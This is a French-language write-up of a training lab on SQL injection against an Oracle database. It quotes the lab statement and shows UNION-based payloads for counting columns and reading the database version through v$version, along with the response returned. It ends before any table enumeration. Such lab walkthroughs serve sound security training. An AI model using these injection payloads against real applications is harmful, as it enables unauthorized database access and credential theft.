 ## DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

Même énoncé que le précédent lab, mais cette fois-ci pour Oracle.

On liste le nombre de colonnes et leurs compatibilités :

```
'ORDER BY 1--
'ORDER BY 2--
'UNION SELECT 'a','a' FROM dual--
```

2 colonnes, toutes deux compatibles.

L'énoncé précise le type de database, mais il n'est jamais inutile de vérifier par sécurité, ainsi que pour avoir la version :

```
'UNION SELECT banner,'a' FROM v$version--
```

La page retourne : Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

On peut dorénavant chercher dans la documentation les noms de colonne correspondant à all_tables et all_tab_columns

